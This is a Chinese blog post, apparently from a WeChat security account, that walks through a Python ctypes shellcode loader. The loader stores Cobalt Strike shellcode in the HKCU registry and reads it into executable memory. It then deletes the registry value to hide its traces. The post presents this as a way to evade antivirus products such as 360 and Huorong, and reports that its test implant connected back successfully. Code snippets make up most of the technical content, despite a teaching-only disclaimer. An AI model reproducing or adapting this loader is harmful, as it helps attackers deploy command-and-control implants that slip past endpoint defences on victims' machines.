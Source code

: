 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ZbRG7SGZxCucpQI7cmeDbg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/zbTIZGJWWSPQdnFLNBOibeibWcF6a35v8gPjAL4EpmW03fg3nVwwzDGvuUvvX8kstOfKfMzmpPrv8hkuf1bbef5g/640?wx_fmt=jpeg)  

一位苦于信息安全的萌新小白帽

本实验仅用于信息防御教学，切勿用于它用途

公众号：XG 小刚

最近毕业了，开始了新的打工生活，知识也被榨干了，更新比较慢

**前言**  

前几天不是发了几个《[UUID、MAC、ipv4](http://mp.weixin.qq.com/s?__biz=MzIwOTMzMzY0Ng==&mid=2247485833&idx=1&sn=82c2f120b6c5058dc9afcc4eeefb89b5&chksm=97743568a003bc7e9e62e90d2353ecb17c2761a492b494417290b85e7fd39a8da3d9c5d6d249&scene=21#wechat_redirect)》等加载器吗，这几个原理都一个样，就是转换内容然后写到内存中去，说白了只要能往内存写东西的函数都能写成加载器

这几天研究 api 操作注册表想绕过 360 等，突然想起注册表是可以存储二进制内容的，然后就发现了 RegQueryValueExA 函数是可以读取 注册表中内容的，所以我们只要将读取的内容存到申请的内存中去执行即可。

本文环境使用 py2.7，通过 ctypes 库调用 RegQueryValueExA 函数实现上线 cs

**注册表**

注册表就不多介绍了，乱七八糟的我也讲不懂，自己百度  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPQdnFLNBOibeibWcF6a35v8g0effAg74GKHA03ThAl9QWZic3LKEibVMUFWPjHw5p0ddXcAcyYWk3Bhg/640?wx_fmt=png)

但主要一点，我们操作注册表是需要权限的，但 HKLM_CURRWNT_USER 表是不需要权限的，所以我们主要操作这个表  

**函数介绍**

在读取注册表内容之前，注册表得有我们的 shellcode 内容啊，命令行操作 reg 又不行，拦的死死地，所以只能用 api 进行写入我们的 shellcode  

RegSetValueExA

该函数在 Advapi32.dll 库中，可以设置注册表项下指定值的数据和类型。

函数原型：

```
https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa
```

```
LSTATUS RegSetValueExA(
  HKEY       hKey,
  LPCSTR     lpValueName,
  DWORD      Reserved,
  DWORD      dwType,
  const BYTE *lpData,
  DWORD      cbData
);
```

hKey 为上面五个表其中一种，这里操作 HKLM_CURRWNT_USER，在 py 里对应值是 - 2147483647  

lpValueName 是在表里新建一个值

dwType 是值的类型，在注册表里不同的值类型储存不同格式的数据，我们需要储存二进制数据，所以值类型为 REG_BINARY，py 里对应数值为 3

lpData 这是我们需要写入的数据，这里写入 shellcode

cbData 是数据的大小，必须将 shellcode 全部写入

```
buf = b"\xfc\x00..."
ctypes.windll.Advapi32.RegSetValueExA(-2147483647, "test", None, 3, buf,len(buf))
```

此时看看注册表里的内容是不是 shellcode  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPQdnFLNBOibeibWcF6a35v8gs79rtb3luibicK2g7vyOdR2FTQP2SBz9Roicj2Fp6TfhHvESMzDzTDNBw/640?wx_fmt=png)

RegQueryValueExA  

该函数在 Advapi32.dll 库中，检索与打开的注册表项关联的指定值名称的类型和数据。

函数原型：

```
https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regqueryvalueexa
```

```
LSTATUS RegQueryValueExA(
  HKEY    hKey,
  LPCSTR  lpValueName,
  LPDWORD lpReserved,
  LPDWORD lpType,
  LPBYTE  lpData,
  LPDWORD lpcbData
);
```

hKey 对应上面注册表的组  

lpValueName 对应上面值的名称

lpType 接收查到的值的类型，可以为 0 表示不需要此内容

lpData 则接收我们查到的值的数据，也就是我们的 shellcode，这里需要 VirtualAlloc 申请一块内存来接收此数据，这里根据需要的指针类型将内存改为 LPBYTE 的指针

```
LPBYTE = POINTER(c_byte)
ctypes.windll.kernel32.VirtualAlloc.restype = LPBYTE
ptr = ctypes.windll.kernel32.VirtualAlloc(0,800,0x3000,0x40)
```

lpcbData 则是 shellcode 的长度，这里长度我们需要先执行一下 RegQueryValueExA 来获取一下 shellcode 长度，然后继续直接 RegQueryValueExA 来去读内容到申请的内存  

```
data_len = DWORD()
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647, "test", 0, 0, 0, byref(data_len))
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647,"test",0,None,ptr,byref(data_len))
```

这时 shellcode 已经写入到内存中去了，继续老一套创建线程运行即可  

当写完内存，以防万一将写入的注册表进行删除

```
ctypes.windll.Advapi32.RegDeleteValueA(-2147483647, "test")
```

测试

环境 py2.7 , 使用 cs 生成 64 位 shellcode

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPQdnFLNBOibeibWcF6a35v8gC9PuaOyTdNCoVNyVtAfQEs0doicIC30DaYA5v9z3Y8Esn7FDldFh1FA/640?wx_fmt=png)

这里测试了火绒，360，成功上线

公众号

源码公众号回复：**注册表加载器**